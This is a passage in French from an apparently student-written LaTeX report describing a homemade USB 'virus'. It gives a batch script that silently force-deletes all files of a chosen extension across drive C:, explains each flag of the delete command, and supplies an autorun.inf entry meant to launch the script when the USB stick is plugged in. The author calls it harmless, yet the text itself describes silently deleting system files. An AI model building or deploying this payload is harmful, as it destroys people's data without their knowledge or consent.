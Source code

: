 \medskip
\medskip


\medskip
\medskip


J'étais alors mécontent du résultat obtenu avec le trasfert via ssh, je me suis donc penché vers un virus un peu plus dangereux mais qui reste inoffensif avec les fichiers vitaux d'un ordinateur. Je n'avais pas pour objectif de la faire mais j'imaginais mettre un virus sur une clé USB. Clé USB qui fonctionne grâce à un programme que je crée fonctionnant avec \textit{Autorun}. Autorun est une fonction qui lance directement un programme que l'on peut choisir suite au formatage d'un périphèrique externe.   

\medskip
\medskip

\begin{lstlisting}[caption={Virus Autorun},label={listing:Batch}]
C:
cd \
del /s /q /f *.extension
\end{lstlisting} 

\medskip
\medskip

Ce virus supprimera tous les dossiers -qui comportent l'extension donnée- dont l'utilisateur a accès. \textit{C:} montre que l'on veut aller dans le disque local principal. On rentre ensuite dans le cd et on ordonne la suppression des fichiers voulus.
\textit{/s} est la commande qui donne accès aux fichiers système. \textit{/q} est la commande "silence", signifiant quiet en anglais. Avec celle-ci, le programme ne demandera pas de confirmer la suppression des fichiers. \textit{/f} forcera le système à supprimmer les dossiers. l'\textit{*} signifie "tous les fichiers". On va donc forcer la machine à supprimer tous les fichiers système possédant une extension particulière se trouvant dans le disque local C:, en mode silence.
Il manque maintenant de l'enregistrer en tant que fichier de commande .bat et de créer un programme qui permettra d'enclencher notre virus lorsqu'on connecte notre clé USB à l'ordinateur. 

\medskip
\medskip

\begin{lstlisting}[caption={Autorun},label={listing:Batch}]
[autorun]
open=NomDuVirus.bat
\end{lstlisting}     

